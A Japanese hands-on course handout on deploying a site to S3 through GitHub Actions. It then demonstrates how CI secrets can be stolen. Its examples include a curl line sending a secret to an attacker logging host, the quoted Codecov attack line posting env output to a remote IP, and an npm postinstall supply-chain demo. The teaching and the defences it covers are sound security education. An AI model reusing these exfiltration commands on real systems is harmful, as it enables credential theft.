

# ハンズオン 3

## S3 でホスティングしてみる

S3 の機能の一つに、ウェブサイトホスティング機能があります。GitHub Pages のかわりに、S3 でホスティングしてみましょう。
このとき、S3 をコマンドライン操作できる aws cli というツールが GitHub Actions の環境に入っているので、これを使ってみます。

やることは、以下の通りです

1. Amazon S3 でホスティングするためのバケット（フォルダみたいなもの）を作る
1. aws cli を使って、GitHub Actions から S3 の操作ができるように、認証情報を登録する
1. GitHub Actions の設定ファイルをいじる
    - `_book`ディレクトリを S3 にアップロードするようにする


1 は口頭で説明します。
その設定のときに以下の JSON を使用するので、講義中での案内に従ってください。
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "static-site",
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:GetObject",
            "Resource": "arn:aws:s3:::your-bucket-name/*"
        }
    ]
}
```

2　について、次の節で補足します。
3 で使うのは、以下のようなコマンドです。


GitHub Actions はワークフローファイルと呼ばれるファイルにより設定を行います。
```yaml
# .github/workflows/deploy.yaml
name: CI

on:
  push:
    branches:
      - master
      - main
  workflow_dispatch:

permissions:
  contents: write

env:
  AWS_ACCESS_KEY_ID: ${{ secrets.AWS_ACCESS_KEY_ID }}
  AWS_SECRET_ACCESS_KEY: ${{ secrets.AWS_SECRET_ACCESS_KEY }}
  TEST_SECRET: ${{ secrets.TEST_SECRET }}

jobs:
  deploy:
    runs-on: ubuntu-22.04
    steps:
    - name: Checkout
      uses: actions/checkout@v4

    - name: Setup Node
      uses: actions/setup-node@v4
      with:
        node-version: '20'

    - name: Install dependencies
      run: npm install

    - name: Build Honkit
      run: npx honkit build
   
    - name: Upload to S3
      run: aws s3 sync --delete --region ap-northeast-1 ./_book s3://YOUR_PUBLIC_BUCKET
```

cf. [1 つのワークフローに対する環境変数の定義](https://docs.github.com/ja/actions/learn-github-actions/variables#1-%E3%81%A4%E3%81%AE%E3%83%AF%E3%83%BC%E3%82%AF%E3%83%95%E3%83%AD%E3%83%BC%E3%81%AB%E5%AF%BE%E3%81%99%E3%82%8B%E7%92%B0%E5%A2%83%E5%A4%89%E6%95%B0%E3%81%AE%E5%AE%9A%E7%BE%A9)
cf. [AWS CLI を設定する環境変数](https://docs.aws.amazon.com/ja_jp/cli/latest/userguide/cli-configure-envvars.html)


## AWS IAM を使って、認証情報を取得する
AWS IAM(Identity and Access Management) は、名前の通り認証とアクセス制御をつかさどる機能です。
AWS を登録すると、一つのルートアカウントが発行されます。このルートアカウントにはクレカの情報などが登録できます。
さらに、そのアカウントに紐づけて、IAM アカウントというものを作成できます。そのアカウントで作成されたリソースは、ルートアカウントのリソースとして登録されます。たとえば、EC2 を IAM ユーザーで作成すると、ルートユーザーやルートユーザーに紐づいた他のアカウントでもそのEC2を削除したりできます。

ルートユーザーと IAM ユーザーが違うのは、IAM　ユーザーは権限を適切に制御できるということです。（他にもクレカの登録ができるかどうかなどの違いがありますが）
IAM ユーザーを作るときに、適切に権限を設定すると、たとえば S3 の読み取り権限だけをもったアカウントを用意し、同じ組織のメンバーに配ることができます。

皆さんには今回の操作に必要な権限を与えた IAM ユーザーを作成しています。

IAM ユーザーは、アクセストークンが発行できます。それを発行して、手元に控えておいてください。流出するとサービスをそのユーザーに付与した権限内でサービスを好き放題使われてしまうので、慎重に扱いましょう。

## GitHub Actions でアクセストークンを利用できるようにする
一度アクセストークンについて整理します。

- アクセストークンは、AWS のサービスを利用するために発行したもので、AWS のユーザーに紐づいています。
- アクセストークンと一緒に AWS にリクエストを送ると、ユーザーが持つ権限の範囲内であれば操作が実行されます。
- 今回やりたいのは、GitHub Actions 上で生成したファイルを Amazon S3 にアップロードすることです。

なので、GitHub Actions 上でアクセストークンを利用できるようにする必要があります。
なお、AWS にリクエストを送るための道具として、公式が提供する、コマンドラインから AWS を操作するためのツールである AWS CLI を利用します。
また、AWS CLI にアクセストークンを知らせる方法として環境変数を利用します。

GitHub Actions 上で環境変数は次のように定義できるのでした。
```yaml
env:
    AWS_ACCESS_KEY_ID: ${{ secrets.AWS_ACCESS_KEY_ID }}
    AWS_SECRET_ACCESS_KEY: ${{ secrets.AWS_SECRET_ACCESS_KEY }}
```

ここで注目してほしいのは、`${{ secrets.AWS_ACCESS_KEY_ID }}`という部分です。GitHub Actions では、`${{}}`で囲うことで変数が利用できます。そして、GitHub Actions のデフォルトの変数として、`secrets`という変数が提供されており、その中にはユーザーが設定した機密情報を入れることができます。
機密情報の設定は、リポジトリのページの以下の`Actions`の部分です。



ここに、`AWS_ACCESS_KEY_ID`と`AWS_SECRET_ACCESS_KEY`の二つのキーを登録しましょう。
あとついでに`TEST_SECRET`という名前の適当な文字列も登録しておいてください。
登録出来たら、ワークフローを動かしてみてください。S3 のバケットにファイルがアップロードされたら成功です。


ついでにサイトを公開してみましょう。口頭で説明します。

## シークレットの扱い
この節では、デモのために以下のリポジトリを用います。
https://github.com/sasakiy84/github-actions-secret-test

「AWS のユーザー管理と S3」の節では、AWS で発行したトークンを用いて AWS のサービスが操作できることを学びました。そして、そのトークンは GitHub Actions のシークレットとして保管していました。
クラウドサービスに対する攻撃では、攻撃者はその目標を達成するために、権限をもったトークンの奪取を狙います。トークンを取得することができれば、データを抜き出したり、計算資源を利用することが可能だからです。
では、GitHub Actions のシークレットに保存したトークンは安全なのでしょうか。

GitHub のトークン設定画面から保存したトークンの表示ができないことは、ハンズオンで確認しました。では、トークンを利用するワークフロー上で表示するのはどうでしょう。トークンを利用するときは、トークンの完全な文字列がないとトークンとして意味がないので、表示できそうな気がします。

`main1.yml`で確認してみましょう。
https://github.com/sasakiy84/github-actions-secret-test/blob/main/.github/workflows/main1.yml

以下の部分で表示しようとしています。
```bash
echo $TEST_SECRET
```

`$TEST_SECRET`は、環境変数を表しています。
実行結果はどうだったでしょうか。secret の文字列がマスキングされていると思います。良かったですね。

## リクエストを用いて送信する
次に、`main2.yml`を見てみましょう。
このワークフローでは、シークレットを URL の一部として利用し、外部にリクエストを送っています。
```bash
curl curl http://attacker-logging-endpoint.sasakiy84.net/bbb/$TEST_SECRET
```

送信先サーバーへのアクセス方法を講義中に伝えます。
接続したら、以下のコマンドを実行してログを確認してください。

```bash
tail -f access.log | grep bbb
```

結果を見てみましょう。トークンが奪取されたことが確認できたでしょうか。

### 実際の事例（codecov）
https://about.codecov.io/security-update/

実際の攻撃コード
> The modified portion of the bash uploader script was as follows - curl -sm 0.5 -d “$(git remote -v)<<<<<< ENV $(env)” https://IPADDRESS/upload/v2 || true

Bash Uploader を編集された経緯
>  The actor gained access because of an error in Codecov’s Docker image creation process that allowed the actor to extract the credential required to modify our Bash Uploader script.

影響を受けた側であるメルカリの発表
https://about.mercari.com/press/news/articles/20210521_incident_report/

## より身近に脅威を感じてもらうために（npm）
次に、test 3 を実行してみましょう。
test 3 では、`npm i`を実行しています。
https://github.com/sasakiy84/github-actions-secret-test/blob/74b5bced472878469b99c7096feccbd6892b7cb4/.github/workflows/main3.yml#L13

`npm i`は、ライブラリをダウンロードするだけなので、問題なさそうです。
しかし、実際に実行してみると、トークンが奪取されてしまいます。


node のライブラリを管理するために npm というエコシステムが構築されており、世界の開発者が作成したライブラリが公開されています。
node のリポジトリを clone したらまずやることは、`npm install` をすることであり、これによって`package.json`の内容をもとに`node_modules`フォルダが作成され、その中にライブラリのコードがダウンロードされます。
このとき、`package.json`に記載のあるライブラリだけでなく、そこで記載のあるライブラリが依存しているライブラリもともにインストールされます。たとえば、nuxt は、nuxt が依存している vue のパッケージが`package.json`に記載されており、vue がインストールされます。
https://github.com/nuxt/nuxt/blob/4c027e4b40ea2bce86a4cebae8cb977ab4a26348/packages/nuxt/package.json#L104

「依存関係を再帰的に解決してインストールしてくれる」というのを覚えておいてください。

次に、別の知識として、npm の Life Cycle Scripts という機能を知っているでしょうか。
https://docs.npmjs.com/cli/v10/using-npm/scripts

パッケージをインストールする前や、した後など、特定の瞬間に、あらかじめ指定していたスクリプトを実行できる機能です。
有効な活用方法として、TypeScript の型を自動でインストールする `TypeSync` があります。

https://github.com/jeffijoe/typesync
https://zenn.dev/rena_h/scraps/88e6be5e36e673

「インストールのタイミングで特定のスクリプトを実行できる機能がある」ことを覚えておいてください。

### 攻撃手法
次のリポジトリを用意しました。
https://github.com/sasakiy84/dangerous-npm-repository-test/

このリポジトリは、 npm のレジストリで公開されていて、`npm i dangerous-npm-repository-test`でインストールできると思ってください。
今回のデモでは、`npm i sasakiy84/dangerous-npm-repository-test`で依存関係に追加します。実は、npm はダウンロード元として GitHub のリポジトリも指定できるのです。

実際に設定したのが以下の部分です。
https://github.com/sasakiy84/github-actions-secret-test/blob/74b5bced472878469b99c7096feccbd6892b7cb4/package.json#L12

インストールした`dangerous-npm-repository-test`ライブラリには、以下のような`postinstall`スクリプトが設定されています。
https://github.com/sasakiy84/dangerous-npm-repository-test/package.json#L8

これで材料は揃ったので、トークンが奪取された過程を説明してみましょう。

### 攻撃手法の評価
以上のデモには、現代の開発における問題点が現れています。現代の開発の特徴としてよく挙げられるのが、OSS の利用です。他人が書いたコードを利用することで、うまくいけば世界の専門家が書いたコードの恩恵を受け、時間もコストも節約できるこの手法ですが、開発工程に関わる人が多くなり管理が難しくなるというリスクを伴います。
利用するライブラリが依存しているライブラリが依存しているライブラリにどのような変更が加えられたかまで気にしている開発者はいないでしょう。この問題に関する根本的な解決策は、まだ見つかっていません。

### 対応策
一つは、npm コマンドの`--ignore-scripts`オプションを使うことです。（[参考](https://stacklok.com/blog/how-npm-install-scripts-can-be-weaponized-a-real-life-example-of-a-harmful-npm-package)）

今回の AWS アクセストークンの場合では、test 4 のようにすれば対処可能です。すなわち、シークレットを露出させる箇所を最低限にするという方法です。
https://github.com/sasakiy84/github-actions-secret-test/blob/main/.github/workflows/main4.yml

環境変数をグローバルに登録せず、ステップごとに登録できる機能が GitHub Actions にはあります。`npm i`ではアクセストークンはいらないので、そこでは環境変数を登録しないようにすれば、トークンが奪取されるのを防ぐことができます。


トークンを使える範囲を最小限にするという方策のほかに、トークンに与える権限を最小限にするという方策もあります。たとえトークンが盗まれたとしても、大した権限がなければ被害を最小限に抑えることができます。
他にも、トークンを使った操作をモニタリングして、不審な操作があればアラートを発報してすぐにトークンを無効にできるような監視体制を整えたり、最新の脆弱性情報に追従できるような自動アップデートの仕組みを整えたりなど、できることは多くあります。

## 開発環境
ところで、トークンが保存される場所は、GitHub Actions のようなクラウド上だけではありません。開発者が動作確認を行うために開発用　PC　にも保存されることがよくあります。
ここで、それぞれの PC で[このリポジトリ](https://github.com/sasakiy84/github-actions-secret-test/)を clone して、`npm i`
そして、`node_modules/dangerous-npm-repository-test`の中身を見てみましょう。

これが、「ファイルに保存する」という動作ではなく、「攻撃者のサーバーに通信する」という挙動だったらどうだったでしょうか。

## 関連記事
- [Researcher hacks over 35 tech firms in novel supply chain attack](https://www.bleepingcomputer.com/news/security/researcher-hacks-over-35-tech-firms-in-novel-supply-chain-attack/)
    - ↑で紹介したのよりもうすこし工夫された方法で、企業が攻撃できることを示した記事
    - npm のプライベートライブラリとパブリックライブラリの扱いと、DNS の名前解決を利用している
    - 
